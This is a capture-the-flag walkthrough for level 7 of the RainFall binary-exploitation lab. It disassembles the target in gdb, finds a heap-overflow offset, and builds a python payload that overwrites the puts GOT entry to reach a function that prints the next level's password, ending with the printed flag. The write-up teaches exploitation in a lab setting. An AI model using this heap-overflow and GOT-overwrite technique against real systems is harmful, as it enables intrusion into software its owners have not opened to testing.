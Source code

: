 # Level 7

Once logged in, you will see a binary `level7`.

```
$ ssh localhost -p 4444 -l level7
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level7@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$ ls
level7
```

Let's run this and see what it does.

```
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

It has a segmentation fault, and we want to avoid that, so let's take a look at the binary.

```
level7@RainFall:~$ gdb ./level7
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    edx,eax
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]		; set eax to [esp+0x1c]
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx		; set eax+0x4 to edx
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>		; malloc (esp = 8)
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax		; return value of malloc allocated to [esp+0x18]
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]		; eax = [esp+0x18]
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2			; eax = 2;
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>		; malloc(esp = 8);
   0x0804857f <+94>:	mov    edx,eax						; return value of eax to edx;
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:	add    eax,0x4
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]			; eax = 4
   0x08048590 <+111>:	mov    edx,eax
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]		; eax = a[1]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    eax,0x0
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
gdb-peda$
```

The `main` function takes arguments (`argv`) and allocates them into two local variables. Afterwards, it calls the function `fgets` to read the `level8/.pass` file, storing the value into the global variable `c` at address `0x08049960`. Finally, the string `~~` will be printed out.

The goal is to get the flag, and the program doesn't seem to print out flags without an exploit.

```
level7@RainFall:~$ ./level7 aaaa bbbb
~~
level7@RainFall:~$
```

Let's see if there is any other function declared.

```
gdb-peda$ info functions
All defined functions:
[...]
0x080484f4  m
0x08048521  main
[...]
```

The funciton `m` is here, so let's see the assembly.

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```

By decompiling the assembly, we can see that the function prints out the value of `c` with the result of a `time` call.

During the first call to `strcpy`, we can overwrite the address used as destination for the second `strcpy` (`second[1]`). By doing this, we can overwrite function `puts` GOT address to call function `m` instead.

In order to do, it is necessary to find out the offset.

By using a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), it is easy to find the offset. Here, we find the offset is 20. (This offset is small because `malloc` places items in memory near each other.)

```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

After having figured out how to overwrite the `second[1]` pointer in the first part of this exploit, we then need to overwrite the `puts` GOT (Global Offset Table) address with a pointer to `m`. (See level 5 walkthrough for an explanation of GOT)

In short, instead of calling `puts`, we want to call `m`. The address for `puts` is cached on the GOT and we fill that cache before the real address gets checked.

The address for `puts` can be easily found with gdb and can be checked by using `ltrace`.

```
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
gdb-peda$ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928    // same as 0x08049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

Here's our program with half of the exploit complete, writing `"AAAA"` into the pointer for `puts`.

```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') AAAA
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b") = 0x0804a018
strcpy(0x08049928, "AAAA")                = 0x08049928
fopen("/home/user/level8/.pass", "r")     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As found above, the address for function `m()` is `0x080484f4`, so the payload needs to be set up as below:

```
    padding (20 bytes) + GOT address (4 bytes)   +   m() function address (4 bytes)
                     1st arg                                   2nd arg
```

And voilà our completed exploit:

```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1654670080
level7@RainFall:~$
```
